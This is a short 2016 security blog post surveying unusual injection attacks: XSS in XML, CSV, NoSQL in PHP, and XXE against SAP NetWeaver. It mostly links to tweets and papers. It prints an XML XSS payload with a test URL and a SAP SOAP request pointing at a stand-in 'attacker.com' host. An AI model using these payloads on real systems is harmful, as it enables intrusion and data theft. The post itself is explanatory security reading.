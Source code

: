 +++
aliases = [ "20160723" ]
date = "2016-07-23"
title = "Five Interesting Injection Attacks"
+++

Everyone is familiar with SQLi and XSS.  To make things more interesting, here are five more unusual injection attacks that have appeared recently.

<!--more-->

In no particular order:

### XSS in your XML

This "XSS in XML" exploit appears to work in Chrome but not Safari (and didn't test in Firefox).

http://sdl.me/XSSDemo/xss-xml-frames.html

<blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">XSS in XML - exploitation demo to run an external JS in full DOM: <a href="https://t.co/42gqNp51zb">https://t.co/42gqNp51zb</a></p>&mdash; Soroush Dalili (@irsdl) <a href="https://twitter.com/irsdl/status/753925964179136512">July 15, 2016</a></blockquote> <script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>


### Another XSS in your XML


```xml
<x:script xmlns:x="http://www.w3.org/1999/xhtml" src="data:,alert(1)" />
```

http://vulnerabledoma.in/char_test?mime=text/xml&body=%3Cx:script%20xmlns:x=%22http://www.w3.org/1999/xhtml%22%20src=%22data:,alert(1)%22%20/%3E

via

<blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">An XML &quot;obfuscated&quot; one by <a href="https://twitter.com/kinugawamasato">@kinugawamasato</a> : <a href="https://t.co/zk8IWRTKse">https://t.co/zk8IWRTKse</a></p>&mdash; XSS Payloads (@XssPayloads) <a href="https://twitter.com/XssPayloads/status/752538375702347776">July 11, 2016</a></blockquote> <script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>


### CSV Injection

Yes, "Comma Separated Value" injection.  Really???  https://blog.zsec.uk/csv-dangers-mitigations/  The advice is the usual

  It should also be considered that all user input be not trusted
  and as a result any output should be encoded. 

<blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">CSV Injection Revisited - Making Things More Dangerious (and fun) : <a href="https://t.co/7uSqcGNiou">https://t.co/7uSqcGNiou</a></p>&mdash; Binni Shah (@binitamshah) <a href="https://twitter.com/binitamshah/status/756804309010919424">July 23, 2016</a></blockquote> <script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>


### NoSQL Injection

This should really be NoSQL injection using PHP, as the techniques appear to specific to PHP's drivers.

<blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">Good read from Nikhil Mattal on MongoDB security and injection attacks with PHP. <a href="https://t.co/evhJHyfNEy">https://t.co/evhJHyfNEy</a> <a href="https://t.co/2ubDYb6FKR">pic.twitter.com/2ubDYb6FKR</a></p>&mdash; Jessica Hall (@JessHallway) <a href="https://twitter.com/JessHallway/status/743529851722825729">June 16, 2016</a></blockquote> <script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>


This may or may not be a re-hash of [Analysis and Mitigation of NoSQL Injections](http://ieeexplore.ieee.org/xpl/login.jsp?tp=&arnumber=7448357&url=http%3A%2F%2Fieeexplore.ieee.org%2Fiel7%2F8013%2F7448333%2F07448357.pdf%3Farnumber%3D7448357) which came out a few months earlier.

  NoSQL data storage systems have become very popular due to their scalability
  and ease of use. Unfortunately, they lack the security measures and awareness
  that are required for data protection. Although the new data models and query
  formats of NoSQL data stores make old attacks such as SQL injections
  irrelevant, they give attackers new opportunities for injecting their
  malicious code into the statements passed to the database. Analysis of the
  techniques for injecting malicious code into NoSQL data stores provides
  examples of new NoSQL injections as well as Cross-Site Request Forgery
  attacks, allowing attackers to bypass perimeter defenses such as firewalls.
  Analysis of the source of these vulnerabilities and present methodologies can
  mitigate such attacks. Because code analysis alone is insufficient to prevent
  attacks in today's typical large-scale deployment, certain mitigations should
  be done throughout the entire software life cycle.

## XXE Injection

XXE Injection is always a bit of a weirdo.

<blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">SAP
NetWeaver AS JAVA 7.5 XXE Injection <a
href="https://t.co/Rf0s6GBPhP">https://t.co/Rf0s6GBPhP</a> <a
href="https://twitter.com/hashtag/exploit?src=hash">#exploit</a></p>&mdash;
packet storm (@packet_storm) <a
href="https://twitter.com/packet_storm/status/743978466169724928">June 18,
2016</a></blockquote> <script async src="//platform.twitter.com/widgets.js"
charset="utf-8"></script>

By uploading a XML file with an external XML entity, you can make the server
send or retrieve arbitrary files or URLs.  The example here is:

```xml
<SOAP-ENV:Envelope
xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"
xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<SOAP-ENV:Body>
 <m:XXX xmlns:m="http://sap.com/monitoring/ws/sn/">
   <url>attacker.com</url>
 </m:XXX>
 </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```

